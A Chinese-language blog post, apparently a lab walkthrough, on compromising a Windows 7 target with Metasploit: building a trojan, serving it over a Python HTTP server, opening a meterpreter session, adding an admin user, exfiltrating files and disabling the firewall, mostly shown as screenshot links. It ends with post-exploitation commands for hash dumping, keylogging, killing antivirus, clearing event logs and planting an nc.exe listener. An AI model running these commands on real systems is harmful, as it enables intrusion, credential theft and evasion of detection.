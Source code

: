```yaml
---
layout:     post
title:      msf入侵windows基本实践
subtitle:   msf入侵win7
date:       2021-03-19
author:     BlackFrog-hub
header-img: img/msf_win7_bg.jpg
catalog: true
tags:
    - msf
    - kali
      
---
```


##### 生成木马

![](http://www.blackfrog.top/img/trojan.png)

##### 利用`Python`快速生成一个`HTTPServer`

![](http://www.blackfrog.top/img/python_http.png)

##### 利用靶机访问我们刚刚使用`Python`开启的`HTTPServer`，并下载生成的`Trojan`

![](http://www.blackfrog.top/img/http.png)

##### 启动`msf`

![](http://www.blackfrog.top/img/qidong.png)

##### 设置`payload`,并`exploit & run`成功

![](http://www.blackfrog.top/img/set.png)

##### 将`Trojan`进程移动到其他指定的进程中，这样做的好处是可以给`meterpreter`一个相对稳定的运行环境

![](http://www.blackfrog.top/img/unkill.png)

##### 查看`route`信息

![](http://www.blackfrog.top/img/route.png)

##### 查看进程

![](http://www.blackfrog.top/img/ps.png)

##### Get目标主机`shell`隐藏，获取靶机信息

![](http://www.blackfog.top/img/get.png)

##### 查看`IP`

![](http://www.blackfrog.top/img/ip.png)

##### 添加新用户并加入`administrator`组

![](http://www.blackfrog.top/img/shell.png)

##### 下载靶机文件

![](http://www.blackfrog.top/img/get_file.png)

##### 关闭目标主机`Firewalls`

![](http://www.blackfrog.top/img/off_firewall.png)

##### 其他基本命令
-  `run post/windows/gather/smart_hashdump`  获取目标主机上用户的hash值
-  `run post/windows/capture/keylog_recorder`  键盘记录
-  `run killav` 结束目标主机上的杀毒软件相关进程
-  `clearev`  清除系统日志
-  `upload /usr/share/windows-binaries/nc.exe c:\\windows\\system32`  上传`nc.exe`到目标主机上 (注:`\\`)
-  `dir windows\\system32\\nc.exe`  查看
-  ·execute -f nc -nvlp 3333·  执行nc.exe

